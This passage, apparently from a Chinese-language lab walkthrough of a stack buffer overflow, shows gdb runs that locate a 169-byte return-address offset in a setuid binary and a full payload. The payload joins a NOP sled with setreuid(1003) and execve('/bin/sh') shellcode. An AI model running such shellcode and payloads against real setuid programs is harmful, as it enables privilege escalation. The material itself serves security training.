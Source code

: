     int main(int argc, char **argv)
    {
        concat_arg(argv[1]);
    }
    ```
+ 目标缓冲区有154个字节，但doggo已经用了5个字节，即从149个字节开始测试：

    ```
    [user1@ip-10-10-242-128 overflow-4]$ gdb -q ./buffer-overflow-2
    Reading symbols from ./buffer-overflow-2...(no debugging symbols found)...done.
    (gdb) run $(python -c "print('A'*(154-5+8*2+4))")
    Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*(154-5+8*2+4))")
    Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
    new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    0x0000414141414141 in ?? ()

    此时已完全覆盖返回地址，偏移量为169    
    ```

+ 查看文件权限，为use3(1003):

    ```
    [user1@ip-10-10-242-128 overflow-4]$ ls -al
    total 28
    drwxrwxr-x 2 user1 user1   89 Dec 19 02:36 .
    drwx------ 7 user1 user1  169 Nov 27  2019 ..
    -rwxrwxr-x 1 user1 user1 6200 Dec 19 02:36 a.out
    -rwsr-xr-x 1 user3 user3 8272 Sep  3  2019 buffer-overflow-2
    -rw-rw-r-- 1 user1 user1  250 Sep  3  2019 buffer-overflow-2.c
    -rw------- 1 user3 user3   17 Sep  2  2019 secret.txt    
    ```
+ setreuid(1003)的shellcode为：

    ```
    root@ip-10-10-101-253:~# pwn shellcraft -f d amd64.linux.setreuid 1003
    \x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05   
    ```
+ 验证payload：NOP(90)+shellcode(54)+random(19)+memory(6)

    ```
    [user1@ip-10-10-242-128 overflow-4]$ gdb -q ./buffer-overflow-2
    Reading symbols from ./buffer-overflow-2...(no debugging symbols found)...done.
    (gdb) run $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + 'C'*6)")
    Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + 'C'*6)")
    Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
    new word is doggo\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd1\ufffdf\ufffd\ufffdjqXH\ufffd\ufffdj;XH1\ufffdI\ufffd//bin/shI\ufffdAPH\ufffd\ufffdRWH\ufffd\ufffdj<XH1\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffd\ufffdCCCCCC
